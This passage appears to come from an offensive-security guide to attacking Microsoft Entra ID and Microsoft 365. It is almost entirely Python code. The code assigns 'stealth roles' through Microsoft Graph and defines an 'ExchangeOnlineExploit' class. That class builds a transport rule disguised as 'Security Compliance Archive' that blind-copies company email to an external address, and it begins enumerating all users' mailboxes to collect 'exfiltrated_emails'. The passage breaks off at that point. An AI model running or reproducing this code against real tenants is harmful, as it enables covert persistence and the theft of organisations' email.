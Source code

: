 ```python
            }

            assignment_url = f"{self.graph_url}/roleManagement/directory/roleAssignments"
            requests.post(assignment_url, headers=headers, json=role_assignment)

        print(f"Stealth roles assigned to user: {user_id}")
```

## Microsoft 365 Security Bypasses

### Exchange Online Exploitation

```python
class ExchangeOnlineExploit:
    def __init__(self, access_token):
        self.access_token = access_token
        self.graph_url = "https://graph.microsoft.com/v1.0"

    def create_mail_flow_rule_backdoor(self):
        """Create mail flow rule for persistent access"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Create transport rule that forwards copies of emails
        transport_rule = {
            "name": "Security Compliance Archive",
            "description": "Automatic archiving for security compliance",
            "enabled": True,
            "priority": 0,
            "conditions": [
                {
                    "property": "From",
                    "operator": "Contains",
                    "values": ["@company.com"]
                }
            ],
            "actions": [
                {
                    "actionType": "BlindCopyTo",
                    "recipients": ["archive@external-security-vendor.com"]
                }
            ]
        }

        # Note: This would require Exchange Online PowerShell in reality
        print("Mail flow rule backdoor concept documented")
        return transport_rule

    def abuse_application_impersonation(self):
        """Abuse application impersonation for mailbox access"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Get all users' mailboxes
        users_url = f"{self.graph_url}/users?$select=id,userPrincipalName,mail"
        users_response = requests.get(users_url, headers=headers)
        users = users_response.json().get('value', [])

        exfiltrated_emails = []
```